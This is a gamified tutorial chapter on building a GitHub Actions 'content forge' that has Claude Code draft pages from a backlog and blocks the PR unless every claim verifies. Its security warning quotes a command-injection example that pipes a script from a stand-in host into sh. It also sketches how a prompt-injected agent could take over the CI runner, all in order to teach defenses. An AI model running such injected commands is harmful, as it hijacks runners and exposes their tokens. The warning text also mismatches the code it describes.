

*The forge glows in the deep keep of your realm. For chapters you have built defenses — guards, sigils, sentries that judge what others bring to the gate. But tonight the realm must do something braver: it must **create**. From a humble backlog of half-formed ideas, the forge will hammer out finished scrolls, autonomously, while you sleep.*

*And here is the oath carved above the anvil — the **Prime Directive**: a scroll that claims something it cannot prove is never struck. The forge would rather produce nothing than produce a lie. The real-world skill you are forging is **backlog-driven content generation with a verification gate** — the difference between an automation that ships slop and one you can actually trust unattended.*

## 📖 The Legend Behind This Quest

Every great forge needs three things: raw ore (a backlog of work items), a smith who knows the craft (an autonomous agent given a tight brief), and a quench that tempers every blade before it leaves the fire (the verification gate). In software terms, you are wiring a scheduled job that pulls one item from a queue, drives an agent to draft real content against your repo's standards, and then **refuses to open a pull request** if any claim in that content cannot be checked against reality. The legend is just a wrapper — underneath it is the most important discipline in autonomous content: *the system must be allowed to say "I produced nothing," and that must be a success, not a failure.*

## 🎯 Quest Objectives

### Primary Objectives

- [ ] Build a backlog-driven workflow that selects exactly one work item and drives an agent to draft content from it
- [ ] Encode the **Prime Directive** so any unverifiable claim aborts the run before a PR is opened
- [ ] Implement one-writer-per-collection concurrency so two runs never fight over the same content lane
- [ ] Produce a draft PR that is either fully verified or does not exist at all

### Mastery Indicators

- [ ] Explain why "produced nothing" must be a passing outcome for an autonomous forge
- [ ] Trace a single backlog item from queue → draft → verification → PR (or clean abort)
- [ ] Configure GitHub Actions `concurrency` so collection writers serialize correctly

## 🗺️ Quest Prerequisites

Before you stoke this forge, make sure these tools and trophies are already in your pack:

- 🛡️ **Prior chapter cleared:** [Chapter IV — The Sigils of Trust](/quests/1001/self-operating-website-04-the-sigils-of-trust/). You should already trust an agent to act inside your repo behind least-privilege credentials.
- 🐙 **A GitHub repository you own**, with Actions enabled and permission to open pull requests from the workflow (`pull-requests: write`).
- 🔑 **A `CLAUDE_CODE_OAUTH_TOKEN` repository secret** so the agent step can authenticate. (Generate it with `claude setup-token` and store it under *Settings → Secrets and variables → Actions*.)
- 🧰 **Local tooling for testing:** Git, a text editor or IDE, Python 3.11+, and [`yq`](https://github.com/mikefarah/yq) (the Go implementation) to parse the YAML backlog.
- 🤖 **The Claude Code CLI** installed if you want to dry-run the agent step locally before trusting CI with it.
- 🌿 **Comfort with branches and PRs** — every draft lands on a fresh branch, never on `main`.

## 🧙‍♂️ Chapter 1: Stoking the Forge — Backlog-Driven Generation

### ⚔️ Skills You'll Forge

- Reading a structured backlog and selecting exactly one item per run
- Driving an autonomous agent with a tight, repo-aware brief
- Producing output to a branch rather than straight to `main`

A forge with no ore makes nothing useful. Your backlog is the ore: a small, structured list of content the site still owes its readers. Keep it boring and machine-readable — a YAML or JSON file the workflow can parse without guessing.

```yaml
# .forge/backlog.yml — one item is claimed per run
items:
  - id: forge-001
    collection: docs
    title: "How the verification gate works"
    brief: "Explain the Prime Directive to a new contributor."
    status: ready          # ready | claimed | done
  - id: forge-002
    collection: quests
    title: "Backlog hygiene for autonomous forges"
    brief: "Show how to keep the queue small and trustworthy."
    status: ready
```

The workflow's first job is selection: take the **oldest `ready` item**, mark it `claimed`, and hand its `brief` to the agent. Selecting exactly one item per run keeps each pull request small, reviewable, and easy to roll back — the same instinct behind the daily single-page content factory described in the campaign's reference build.

```bash
# select the first ready item and emit its id for later steps
ITEM_ID=$(yq '.items[] | select(.status == "ready") | .id' .forge/backlog.yml | head -n1)
if [ -z "$ITEM_ID" ]; then
  echo "Forge idle: no ready items. Exiting clean."
  echo "forge_idle=true" >> "$GITHUB_OUTPUT"
  exit 0   # an idle forge is a SUCCESS, not a failure
fi

# claim it IN THE FILE so the next run never re-picks the same item
export ITEM_ID
yq e '(.items[] | select(.id == env(ITEM_ID))).status = "claimed"' -i .forge/backlog.yml
git add .forge/backlog.yml

echo "Claimed $ITEM_ID"
echo "item_id=$ITEM_ID" >> "$GITHUB_OUTPUT"
```

Note the most important line: when the backlog is empty, the forge exits `0`. An idle forge is healthy, not broken. The write-back matters just as much — without flipping that item's `status` to `claimed` and staging it, a second run (or a retry) would happily select the *same* item and you would forge it twice. Commit that claim alongside the draft so the queue and the work stay in lockstep. The agent step then receives the brief and writes a draft into the repo on a fresh branch — never to `main`. Expect the agent to create or modify exactly the file(s) implied by the brief; if it touches more than the targeted collection, your later guard should catch it.

How does the agent actually get invoked? You hand it the claimed `brief` and tell it the one path to write — the draft path out. The exact step (`claude -p "...Brief: $BRIEF. Write ONLY $DRAFT_PATH..."`) is shown in **The Complete Forge Workflow** below; the contract is simple: brief in, a single draft file out at `pages/_<collection>/<item_id>.md`.

### 🔍 Knowledge Check

- [ ] Why does the forge select only one backlog item per run instead of draining the queue?
- [ ] What exit code should an empty-backlog run return, and why is that a success?
- [ ] Why must you write `status: claimed` back to the backlog before the next run starts?
- [ ] Where does the agent's draft land — and why never directly on `main`?

## 🧙‍♂️ Chapter 2: The Prime Directive & One Writer Per Lane

### ⚔️ Skills You'll Forge

- Encoding a verify-or-abort gate that runs *before* a PR is opened
- Distinguishing claims the system can check from prose it cannot
- Serializing writers per collection with GitHub Actions `concurrency`

Now temper the blade. The **Prime Directive** says: *if the draft asserts something checkable and the check fails, the run aborts and no PR is opened.* This is not editorial polish — it is a hard gate. The agent may write beautiful prose, but the moment it claims "command `make build` passes" or "this file exists" or "this link resolves," those claims become testable, and the forge must test them.

The claims come from a small sidecar the agent is told to emit — a `claims.json` written next to the draft, listing every assertion it wants checked. The gate reads that list on stdin and either lets the forge strike or aborts the whole run.

> ⚠️ **SECURITY WARNING — command injection.** The `command_succeeds` branch below runs `subprocess.run(cmd, shell=True)` on a string that *originated from the agent's output*. Treat any agent-generated string as untrusted input. With `shell=True`, a claim like `target: "make build; curl evil.sh | sh"` executes arbitrary code on your runner. **Threat model:** a prompt-injected or simply confused agent can smuggle shell metacharacters into a claim and own your CI runner (which holds your tokens). **Mitigations, in order of preference:** (1) drop `shell=True` and pass an **allowlist** of argument vectors — only permit `make <target>` where `<target>` matches a known set like `{"build", "test", "lint"}`; (2) run the gate inside a **network-less, ephemeral sandbox** (a throwaway container with no secrets mounted and `--network none`) so even a successful injection can exfiltrate nothing; (3) never let agent text reach a shell at all — restrict verifiable claim kinds to ones you evaluate in pure Python (`file_exists`, `link_resolves`, `regex_present`). The snippet keeps `shell=True` only to show the danger plainly — do not ship it as-is.

```python
# .forge/verify.py — the Prime Directive gate (runs before any PR is opened)
import json
import subprocess
import sys
from pathlib import Path


def claim_passes(check: dict) -> bool:
    """A claim is a (kind, target) the system can verify deterministically."""
    if check["kind"] == "file_exists":
        return Path(check["target"]).exists()
    if check["kind"] == "command_succeeds":
        # ⚠️ shell=True on agent-generated input is a command-injection risk.
        # In production, replace this with an allowlist (see the warning above)
        # or run inside a network-less sandbox. Shown here only to be explicit.
        allowed = {"make build", "make test", "make lint"}
        if check["target"] not in allowed:
            return False  # fail closed: not on the allowlist → not verifiable
        return subprocess.run(check["target"].split()).returncode == 0
    # Unknown claim type → cannot verify → the Directive forbids shipping it.
    return False


def enforce(claims: list[dict]) -> None:
    failed = [c for c in claims if not claim_passes(c)]
    if failed:
        for c in failed:
            print(f"PRIME DIRECTIVE VIOLATION: cannot verify {c}", file=sys.stderr)
        sys.exit(1)  # abort: do NOT open a PR
    print("All claims verified. Forge may strike.")


if __name__ == "__main__":
    # claims arrive on stdin as a JSON list, e.g. the agent's claims.json:
    #   cat draft/claims.json | python .forge/verify.py
    enforce(json.load(sys.stdin))
```

The rule that makes this trustworthy: **an unknown claim type fails closed.** If the system does not know how to check something, it does not get the benefit of the doubt. This is exactly the inversion that separates a forge you can leave running from one you have to babysit. Prose that makes no checkable claim is fine — the gate only fires on assertions the system *could* verify and didn't.

The second discipline is concurrency. If two scheduled runs both grab `docs` at once, they will clobber each other's branch and produce a tangled diff. GitHub Actions solves this with a `concurrency` group keyed to the collection — **one writer per lane**.

(The ``raw``/``endraw`` tags wrapping the YAML below are Jekyll escapes for this site's renderer — omit them when you copy the YAML into your own `.github/workflows/`.)


```yaml
# .github/workflows/content-forge.yml (excerpt)
jobs:
  forge:
    runs-on: ubuntu-latest
    # one writer per collection: a second run for the same lane waits its turn
    concurrency:
      group: content-forge-${{ matrix.collection }}
      cancel-in-progress: false   # let the in-flight writer finish, don't cancel
    strategy:
      matrix:
        collection: [docs, quests, about]
```


`cancel-in-progress: false` matters: you want the writer that is mid-forge to *finish and quench*, not be killed halfway and leave a half-struck blade. A queued duplicate simply waits, then often finds its target already claimed and exits idle — clean by design.

### 🔍 Knowledge Check

- [ ] What happens in the Prime Directive gate when a claim's type is unknown?
- [ ] Why is `subprocess.run(..., shell=True)` on agent output dangerous, and what are two safer alternatives?
- [ ] Why must the verification step run *before* the PR is opened, not after?
- [ ] What does `concurrency.group` keyed by collection prevent, and why is `cancel-in-progress: false` the right choice here?

## ⚙️ The Complete Forge Workflow

Stitching the pieces together: select an item, claim it, drive the agent, run the Prime Directive gate, and open a PR **only** if everything verified. Each step gates the next, so a failed quench means no pull request ever appears.


```yaml
# .github/workflows/content-forge.yml
name: Content Forge
on:
  schedule:
    - cron: "17 6 * * *"   # nightly, while you sleep
  workflow_dispatch: {}     # plus a manual lever

permissions:
  contents: write
  pull-requests: write

jobs:
  forge:
    runs-on: ubuntu-latest
    concurrency:
      group: content-forge-${{ matrix.collection }}
      cancel-in-progress: false
    strategy:
      matrix:
        collection: [docs, quests, about]
    steps:
      - uses: actions/checkout@v4

      - name: Install yq
        run: |
          sudo wget -qO /usr/local/bin/yq \
            https://github.com/mikefarah/yq/releases/latest/download/yq_linux_amd64
          sudo chmod +x /usr/local/bin/yq

      - name: Set up Python
        uses: actions/setup-python@v5
        with:
          python-version: "3.11"

      - name: Select & claim one backlog item
        id: select
        run: |
          ITEM_ID=$(yq ".items[] | select(.status == \"ready\" and .collection == \"${{ matrix.collection }}\") | .id" .forge/backlog.yml | head -n1)
          if [ -z "$ITEM_ID" ]; then
            echo "Forge idle for ${{ matrix.collection }}. Exiting clean."
            echo "forge_idle=true" >> "$GITHUB_OUTPUT"
            exit 0
          fi
          export ITEM_ID
          yq e '(.items[] | select(.id == env(ITEM_ID))).status = "claimed"' -i .forge/backlog.yml
          git add .forge/backlog.yml
          echo "item_id=$ITEM_ID" >> "$GITHUB_OUTPUT"

      - name: Forge the draft
        if: steps.select.outputs.forge_idle != 'true'
        id: forge
        env:
          CLAUDE_CODE_OAUTH_TOKEN: ${{ secrets.CLAUDE_CODE_OAUTH_TOKEN }}
          ITEM_ID: ${{ steps.select.outputs.item_id }}
        run: |
          BRIEF=$(yq ".items[] | select(.id == \"$ITEM_ID\") | .brief" .forge/backlog.yml)
          DRAFT_PATH="pages/_${{ matrix.collection }}/${ITEM_ID}.md"
          claude -p "Draft a Markdown article for the '${{ matrix.collection }}' collection. \
            Brief: $BRIEF. Write ONLY $DRAFT_PATH plus a claims.json of checkable assertions. \
            Make no claim you cannot prove." \
            --allowedTools "Write,Edit,Read" \
            --output-format text
          echo "draft_path=$DRAFT_PATH" >> "$GITHUB_OUTPUT"

      - name: Prime Directive gate
        if: steps.select.outputs.forge_idle != 'true'
        run: |
          # the gate reads the agent's claims.json on stdin; non-zero aborts the run
          cat draft/claims.json | python .forge/verify.py

      - name: Open the draft PR
        if: steps.select.outputs.forge_idle != 'true'
        env:
          GH_TOKEN: ${{ github.token }}
          ITEM_ID: ${{ steps.select.outputs.item_id }}
        run: |
          git config user.name "content-forge[bot]"
          git config user.email "content-forge@users.noreply.github.com"
          BRANCH="forge/${ITEM_ID}"
          git checkout -b "$BRANCH"
          git add -A
          git commit -m "forge: draft ${ITEM_ID} (verified)"
          git push origin "$BRANCH"
          gh pr create --fill --base main --head "$BRANCH" \
            --title "Forge: draft ${ITEM_ID}" \
            --body "Autonomous draft for \`${{ matrix.collection }}\`. All claims passed the Prime Directive gate."
```


Read the flow as a chain of `if` guards: the moment the **Prime Directive gate** exits non-zero, the workflow fails and the `Open the draft PR` step never runs. No verified draft, no pull request — exactly the oath carved above the anvil.

## 🔁 Reproduce It

This chapter is anchored to a real, merged build in the `bamr87/lifehacker.dev` repo. Study these to see the forge in production:

- **[bamr87/lifehacker.dev#9](https://github.com/bamr87/lifehacker.dev/pull/9)** (`bamr87/lifehacker.dev@f7adeb183`) — established the backlog-driven autonomous content workflow that selects one item per run and drafts to a branch.
- **[bamr87/lifehacker.dev#22](https://github.com/bamr87/lifehacker.dev/pull/22)** (`bamr87/lifehacker.dev@ae4c8a8ca`) — introduced the Prime Directive verification gate so unverifiable claims abort the run before a PR is opened.
- **[bamr87/lifehacker.dev#26](https://github.com/bamr87/lifehacker.dev/pull/26)** (`bamr87/lifehacker.dev@ca13eb567`) — added one-writer-per-collection concurrency control so parallel runs never collide on the same content lane.

## 🎮 Mastery Challenge

**Objective:** Stand up a minimal content forge in a repo you own that drafts from a backlog and obeys the Prime Directive.

- [ ] A scheduled (or manually triggered) workflow selects one `ready` backlog item, writes `status: claimed` back to the backlog, and exits clean (`0`) when the backlog is empty
- [ ] A verification step aborts the run with a non-zero exit and opens **no PR** when you plant a deliberately false claim (e.g. references a file that does not exist)
- [ ] The `command_succeeds` check rejects any target not on your allowlist (try `make definitely-not-a-target` and watch it fail closed)
- [ ] A `concurrency` group keyed by collection demonstrably serializes two runs targeting the same lane (the second waits, then finds nothing to do)

## 🎁 Rewards & Progression

- **Badge earned:** 🔥 Forge Master — autonomous generation behind the Prime Directive
- **Skills unlocked:**
  - 🛠️ Backlog-driven autonomous content generation
  - 🧠 The Prime Directive (verify-or-do-not-ship)
- **+120 XP**

## 🗺️ Quest Network



## 🔮 Next Adventures

The forge now strikes only true blades — but a true blade can still be dull. Next, the realm learns to read its own work with a critic's eye.

- ➡️ **Next chapter:** [Chapter VI — The Editor's Eye](/quests/1100/self-operating-website-06-the-editors-eye/)
- 🏰 **Campaign hub:** [Epic Quest: The Self-Operating Website](/quests/codex/self-operating-website/)

## 📚 Resource Codex

- [GitHub Actions: concurrency](https://docs.github.com/en/actions/using-jobs/using-concurrency) — official docs for serializing workflow runs by group key.
- [Claude Code documentation](https://docs.anthropic.com/en/docs/claude-code/overview) — how to drive the agent steps that draft your content.
- [Workflow syntax for GitHub Actions](https://docs.github.com/en/actions/writing-workflows) — `jobs`, `strategy.matrix`, and step outputs.
- [Jekyll collections](https://jekyllrb.com/docs/collections/) — how the per-collection lanes map to your site's content.

## 🕸️ Knowledge Graph

*Structured wiki-links connect this quest to the IT-Journey knowledge graph. Open the [Obsidian Graph View](/notes/obsidian/graph/) to explore connections.*

**Campaign hub:** [[Epic Quest: The Self-Operating Website]]
**Previous:** [[The Sigils of Trust]]
**Next:** [[The Editor's Eye]]
**Obsidian docs:** [[Obsidian Knowledge Graph and Wiki Links]]
